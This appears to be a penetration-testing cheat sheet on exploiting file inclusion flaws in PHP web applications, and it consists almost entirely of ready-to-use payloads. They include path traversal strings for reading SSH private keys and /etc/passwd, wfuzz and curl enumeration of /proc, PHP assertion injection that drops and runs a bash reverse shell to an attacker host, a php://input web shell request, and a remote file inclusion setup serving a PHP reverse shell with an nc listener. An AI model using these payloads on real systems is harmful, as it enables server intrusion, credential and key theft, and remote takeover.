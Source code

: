### :open_file_folder: Check file

lists

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/custom_wordlists/file_inclusion_linux.txt


Enumerate files

```
wfuzz -c -w file_inclusion_linux.txt --hw 0 http://<target ip>/download.php?downloadurl=FUZZ
```

Attempt to read the SSH key

```
# check the type of the private key used for authentication
../../../../../home/<username>/.ssh/authorized_keys
../../../../../home/<username>/.ssh/id_rsa
../../../../../home/<username>/.ssh/id_ecdsa
../../../../../home/<username>/.ssh/id_dsa
```

Attempt to list the directory contents

```
../../../../../../../../../../../../../../../
```

The Apache configuration file can indicate the directory location of a webpage

```
/opt/apache2/conf/httpd.conf
```

### :open_file_folder: [Proc File System](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/)

```
wfuzz -u http://<target ip>/download.php?downloadurl=/proc/FUZZ/cmdline -z range,1-1000 --hw 1

curl http://<target ip>/download.php?downloadurl=/proc/824/cmdline --output service.txt
```

PHP assertions

```shell
page=' and die(show_source('/etc/passwd')) or '
page=' and die(system('cat /etc/passwd')) or '
# url encode , page=<encode command string>, escape single quotes 
# page=' and die(system('echo \'/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1\' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && /bin/bash /tmp/revshell.sh')) or '
page=' and die(system('echo '%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F<attacker ip>%2F<attacker port> 0>%261' > %2Ftmp%2Frevshell.sh %26%26 chmod 777 %2Ftmp%2Frevshell.sh %26%26 %2Fbin%2Fbash %2Ftmp%2Frevshell.sh')) or '%0A
```

Burp Suite

```
GET /site/index.php?page=php://input&cmd=id HTTP/1.1
Host: 192.168.0.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=2vqr9cj4hp7d2uva04de1352ro
Upgrade-Insecure-Requests: 1
Content-Length: 41

<?php echo shell_exec($_GET['cmd']); ?>
```

:star: PHP filter chain

https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT

https://ctftime.org/writeup/36071

RFI

- method1 

    attacker

    ```shell
    # modify attcker ip and port, e.g., 192.168.10.100 4444
    locate php-reverse-shell
    # start http server
    sudo python3 -m http.server 80
    # listen on port 4444
    sudo nc -nlvp 4444
    ```

    target

    ```shell
    # vulnerability page
    /test.php?url=http://<attcker ip>:<attacker port>/php-reverse-shell.php
    ```

